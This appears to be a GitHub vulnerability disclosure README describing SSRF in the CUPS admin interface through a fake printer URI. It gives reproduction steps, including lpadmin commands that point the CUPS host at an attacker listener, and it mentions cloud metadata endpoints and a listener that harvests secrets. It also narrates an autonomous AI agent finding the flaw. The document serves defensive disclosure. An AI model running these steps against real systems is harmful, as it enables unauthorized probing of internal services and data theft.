 <img width="1918" height="321" alt="image" src="https://github.com/user-attachments/assets/5eeea057-13d9-4502-8327-dfa64af3f8f0" />
<img width="2698" height="422" alt="image" src="https://github.com/user-attachments/assets/159525ba-b207-4db5-bf36-33c79c2adb71" />
<img width="1712" height="236" alt="image" src="https://github.com/user-attachments/assets/08af1e9a-d40b-45fa-85ce-3974f306678b" />

# https://support.apple.com/tr-tr/125110


## SSRF via Fake Printer Injection in CUPS
**OE19992541396** — Reported: 2024-09-08  
**Finder / Reporter:** SelfHack AI / Alperen T. Ugurlu

> **WARNING:** This PoC is intended for authorized, isolated lab environments only. Do **NOT** run this against production systems or systems you do not own or have explicit permission to test. Unauthorized testing may be illegal.

---

## How SelfHack AI Discovered This 

SelfHack AI read the history books — the PrintNightmare saga (CVE‑2021‑1675 / CVE‑2021‑34527) — and used that story as a lesson, not a recipe. It simulated those failure modes inside a safe lab, asking a simple, dangerous question: what would a spooler do if told to talk to the wrong place? The agent then crawled into the CUPS admin UI, mapped the Add‑Printer workflow, and liked the spooler executable as a promising character in the plot. With needle‑precise tests and quiet runtime tracing, it fed crafted inputs and watched the spooler binary open a socket and walk straight to an attacker‑controlled listener — headers and timing in hand, the scene was undeniable. That single, observable handoff (admin UI → spooler process → outbound HTTP) turned a theory into a confirmed SSRF finding. This was not luck: it was autonomous learning — public research taught the agent what to suspect, simulations taught it how to test, and controlled observation let it prove the crime on a macOS stage.


## TL;DR
CUPS (Common UNIX Printing System) admin web interface (`http://localhost:631/admin`) can be induced to initiate HTTP requests when a malicious or fake printer connection URI (e.g., `http://attacker:8080`) is added via the **Add Printer** flow. This allows SSRF and potential disclosure of sensitive data or access to internal services.

---

## Impact
- SSRF: server-side requests to attacker-controlled or internal endpoints.  
- Possible exposure of sensitive headers/body content.  
- Potential access to cloud metadata endpoints (e.g., `169.254.169.254`) or other internal services.  
- Enables further exploitation or lateral movement when combined with other vulnerabilities.

---

## Affected Components / Environment
- CUPS admin web interface (`/admin`) — admin privileges required to add printers.  
- Observed on macOS and Linux systems with CUPS accepting arbitrary HTTP URIs without sufficient validation.  
- PoC testing requires: CUPS host + attacker-controlled HTTP listener (Flask PoC included in this repo).

---

## Root Cause
CUPS does not adequately validate or restrict admin-supplied printer connection URIs. When a connection URI is accepted, the CUPS daemon attempts to contact that URI — enabling SSRF when the URI points to internal or attacker-controlled addresses.

---

## Reproduction (authorized lab only)

### 1) Using the CUPS Admin UI
1. Open the CUPS admin UI: `http://localhost:631/admin` (admin privileges required).  
2. Go to **Add Printer**.  
3. In the **Connection** field enter:  
http://<POC_SERVER_IP>:8080

bash
Kodu kopyala
4. Complete the printer addition process.  
5. The PoC listener (see below) should receive and log the request from the CUPS server.

### 2) Start the PoC listener
```bash
cd ssrf-cups-fake-printer
chmod +x poc.py
./poc.py // starts the Flask listener on port 8080.
```
The listener logs incoming requests and scans headers/body for basic sensitive patterns.

### 3) Example using lpadmin (Linux/macOS)
```bash
sudo lpadmin -p fake-printer -E -v "http://<POC_SERVER_IP>:8080" -m everywhere
sudo cupsenable fake-printer
sudo lpstat -p fake-printer -l
```
These commands programmatically add a printer that points at the PoC listener, causing CUPS to attempt the connection.

# PoC Listener
See poc.py — a minimal Flask-based HTTP listener included in this repository. It:

Logs request metadata (client IP, headers, body).
Searches request content and headers for simple sensitive-data patterns (email, basic "password" patterns, credit-card-like numbers, API key heuristics).
Returns a JSON summary of what it observed.

Note: The PoC is intentionally simple for demonstration and triage. Do not treat it as production monitoring code.

# Disclosure Timeline
```bash
2024-09-08 — Vulnerability reported (OE19992541396)
2024-09-30 — Reporter follow-up
2024-10-02 — PoC provided to vendor
2025-09-15 - Fix Date
```
